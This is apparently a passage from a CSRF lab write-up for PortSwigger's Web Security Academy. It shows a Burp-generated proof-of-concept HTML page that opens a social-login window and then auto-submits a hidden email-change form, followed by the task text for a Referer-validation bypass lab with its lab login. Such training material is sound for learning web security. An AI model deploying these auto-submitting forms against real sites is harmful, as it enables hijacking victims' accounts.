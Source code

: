 ```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a72005004831ac38087729700fb0018.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test77&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
	    window.onclick = () => {
	        window.open('https://0a72005004831ac38087729700fb0018.web-security-academy.net/social-login');
            setTimeout(submit, 10000);
			function submit(){			
				history.pushState('', '', '/');
		  		document.forms[0].submit();    	
      		}
	    }      
    </script>
  </body>
</html>
```

# 11 CSRF where Referer validation depends on header being present

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/1.png)
